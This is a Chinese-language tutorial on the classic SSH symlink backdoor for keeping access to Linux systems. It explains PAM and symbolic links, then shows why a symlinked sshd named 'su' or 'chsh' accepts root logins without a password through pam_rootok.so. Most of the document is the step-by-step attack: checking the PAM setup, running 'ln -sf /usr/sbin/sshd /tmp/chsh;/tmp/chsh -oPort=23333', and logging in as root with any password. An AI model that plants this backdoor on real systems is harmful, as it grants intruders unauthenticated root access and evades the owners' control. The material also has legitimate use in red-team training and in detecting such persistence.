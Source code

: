 # 原理介绍

## **PAM**介绍

PAM认证一般遵循这样的顺序： Service(服务)→ PAM(配置文件)→ pam_*.so。 PAM认证首先要确定那一项服务 ，  然后加载相应的PAM的配置文件(位于/etc/pam.d下)， 最后调用认证文件(位于/lib/security下)进行安全认证， 用户 访问服务器的时候， 服务器的某一个服务程序把用户的谁请求发送到PAM模块进行认证。对于不同的服务器应用程

序所对应的PAM模块也是不同的。如果想查看某个程序是否支持PAM使用 `ls /etc/pam.d` ![img](https://image.201068.xyz/assets/clip_image002-168396103987662.gif)，

![img](https://image.201068.xyz/assets/clip_image004-168396103987763.gif)

## 软连接介绍

软连接称之为符号连接 ( Symbolic Link) ， 也叫软连接。软链接文件有类似于Windows的快捷方式。它实际上是

一个特殊的文件。在符号连接中， 文件实际上是一个文本文件， 其中包含的有另一文件的位置信息。 下来做个实验演示演示一下

```
 touch test.txt //创建test.txt文件  
 ln -fs /var/www/html/1.txt test.txt  
 cat test.txt 
```

![img](https://image.201068.xyz/assets/clip_image005-168396103987765.jpg)

`ln`命令介绍

```
-f, --force 强行删除任何已存在的目标文件
-s, --symbolic 制作符号链接而不是硬链接
```

# 后门原理

ssd软连接是 Linux下很经典的一种权限维持方法,其中涉及的一个比较重要的模块是“ `pam_rootok.so`”模块,

“pam_rootok.so”模块的功能是若用户UID是0,返回成功， 当“ /etc/pam. d/ssh”文件配置了“ auth suicient   pam_rootok.so”时可以不需要密码登录。

当在被控制端执行命令“`ln -sf /usr/sbin/shd /tmp/su;/tmp/su -oPort=1234`”建立shd的软连接后门,PAM认证时会根据软连接的名字到“/etc/pam. d”目录寻找对应到PAM认证文 件,

由于软连接的文件名为“su”,所以SSH的认证文件就被替换成了“`/ 'etc/pam.d/su`”,而“su”中默认配置了“ auth   suicient pam_rootok.so”,从而导致SSH可以不需要密码登录。

## 软连接维持                                        [ ](af://n23)

### 1、判断此计算机SSH是否开启了PAM认证

```
 cat /etc/ssh/sshd_config |grep UsePAM  
```

![img](https://image.201068.xyz/assets/clip_image006-168396103987764.jpg)

### 2、查看pmd.m文件下哪些文件配置了pam_rootok

```
 find /etc/pam.d |xargs  grep "pam_rootok"  
```

![img](https://image.201068.xyz/assets/clip_image008-168396103987766.gif)

### 3、以root权限建软连接

```
ln -sf /usr/sbin/sshd /tmp/chsh;/tmp/chsh -oPort=23333  

ln -sf /usr/sbin/sshd /tmp/chsh  建立sshd的软连接
/tmp/chsh -oPort=23333 更改端口为23333
```

### 4、进行登录

```
ssh root@[IP地址] -p [后门端口] 不需要密码(随便输密码) 

ssh root@192.168.41.134 -p 23333
```

![img](https://image.201068.xyz/assets/clip_image012-168396103987768.gif)